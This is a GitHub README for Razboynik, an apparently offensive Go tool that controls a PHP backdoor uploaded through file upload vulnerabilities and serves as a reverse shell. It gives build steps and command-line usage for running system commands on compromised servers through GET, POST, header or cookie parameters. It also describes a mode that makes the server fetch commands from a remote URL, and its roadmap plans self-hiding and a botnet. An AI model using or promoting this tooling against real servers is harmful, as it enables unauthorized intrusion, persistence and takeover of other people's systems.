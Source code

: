 #Razboynik - разбойник
Razboynik is the FurezLegacy project on Go

##Main Goal ?
Razboynik wants to be the best reverse shell based on PHP backdoor

##FurezLegacy ?
FurezApi Framework was a little PHP website that exploit PHP backdoor.
It allow you to exploit file upload vulnerability on web server.
The main goal was pretty simple : Test every possibilities of infected files to upload, and then, if the upload is successful:

- giving you a user interface to manage datas
- allowing you to do what you want on server

Show the folder structure of the website ? Show a specific file ? Zip content ? Download content ? Upload or even delete ? If the API succeed to be upload on the server. You're the new king of this one!

##Why Razboynik ?
Where FurezApi Framework and later FurezExploit (C++ brother) were boring and long to setup and install, Razboynik learnt about those mistakes and fix it. 
Razboynik is giving you a better interface to handle the server (nothing better than shell). Easier to install, faster to use, better to customize and hot new functionnalities:
- Encoding all the request (Crypto on the way)
- Infected requests by GET, POST, Headers or Cookies
- Logs every result in file
- Better interface
- Easy to plug bundle and plugin thanks to modules
- Proxied tunnel (on the way)

##Binary
(Not available yet)

Binaries for differents platforms (Linux, Windows and soon or later Mac) will be available in the `./bin` directory. So if you don't want to build the application by yourself you can use it.

On Windows launch: `./bin/razboynik.exe`
On linux (in your terminal): (root directory) `./bin/razboynik`

##Build locally
###Requirements
These requirements are necessary only if you want to build the app:
- `Golang`

###Dependencies
These dependencies will be install:
- `eatbytes/razboy` (Business logic and core of razboynik)
- `urfave/cli` (Usefull utility to handle flag and parse command)
- `chzyer/readline` (Implementation of readline to loop on command)
- `fatih/color` (Great colors to push on terminal)
- `golang library` (fmt, strings, buffer, etc...)

###Installation
Instructions to build the app:
- `git clone https://github.com/EatBytes/razboynik.git` (or SSH if you want)
- `cd razboynik`
- `go get`
- `go build`

(Makefile on the way)

##Demo
[![asciicast](https://asciinema.org/a/92281.png)](https://asciinema.org/a/92281)

Let's suppose you find a file upload vulnerability in a website and you upload the script available in `res/backdoor` folder.
Now the url of your script could be (as example) : http://{website}/uploads/script.php

With this statement we can use razboynik as it follow :
- `./razboynik run -u http://{website}/uploads/script.php`
or (shortcut)
- `./razboynik r -u http://{website}/uploads/script.php`

If you want to change the parameter sent, add -p flag and precise it. Like : `./razboynik r -u ... -p myParameter`.
By default the parameter is "razboynik". Parameter is the name of the field or header or cookie (depends on method) sent to server. If the method is GET, razboynik will simply add at the end of the url = ?razboynik={request}.

If you want to change the method, add -m flag as : `./razboynik r -u ... -m POST`.
By default, method is set to GET. You have the choice between : GET, POST, HEADER (evil request will be set in headers), COOKIE.

For more option you can add -h flag. Or type `./razboynik help`.

##API
You will find the API of all the business logic in the appropriate repository `razboy`

###run
Run a reverse shell with specified configuration

OPTIONS: 
- `-u, --url`: (string) Url of the target. Ex: `-u http://localhost/script.php`
- `-m, --method`: (string) Method to use. Ex: `-m POST` (default: "GET")
- `-p, --parameter`: (string) Parameter to use. Ex: `-p test` (default: "razboynik")
- `-s, --shellmethod`: (int) Shellmethod to use. Ex: `-s 0` (default: 0) [0 => system(), 1 => shell_exec()]
- `-k, --key`: (string) Key to unlock optional small protecion. Ex: `-k keytounlock` (default: `FromRussiaWithLove<3`)
- `-r, --raw`: (bool) If set, send the request without base64 encoding
- `-c, --crypt`: (Not available)

###generate
(Not available yet)

###scan
Scan a website to identify what shell method and method works on it.

OPTIONS:
- `-u, --url`: (string) Url of the target. Ex: `-u http://localhost/script.php`
- `-p, --parameter`: (string) Parameter to use. Ex: `-p test` (default: "razboynik")
- `-k, --key`: (string) Key to unlock optional small protecion. Ex: `-k keytounlock` (default: `FromRussiaWithLove<3`)

###invisible
Execute a raw command available at an url (referer). Ex: http://website/cmd.txt point to `'echo 1;'` in body, then I can do : 
- `-u ... -r http://website/cmd.txt`

OPTIONS:
- `-u, --url`: (string) Url of the target. Ex: `-u http://localhost/script.php`
- `-r, --referer`: (string) Url that the server will call to get the cmd to execute. Ex: `-r http://website.com/cmd-i-want-to-execute.txt`

###encode / decode
Encode or decode string.

Ex: encode hello => aGVsbG8=
    decode aGVsbG8= => hello

##Current version
1.6.0

##Roadmap
###~~1.5.0 (DONE)~~
- ~~Raw request~~
- ~~Better error in razboy (core)~~
- ~~Add more information when run fail~~
- ~~Add cookie method~~
- ~~Implement optional key protection~~
- ~~Add base64 encoding and decoding to root~~
- ~~Add invisible method~~

###1.6.0 (IN PROGRESS)
- Web server (REST API)
- Hide itself once on server
- Zip
- Vim

###1.7.0
- Add `./bin` folder with binaries
- More documentation
- Create a botnet. Handle multiple server at the same time
- Config file (necessary with botnet)
- Proxied tunnel
- Crypto ?
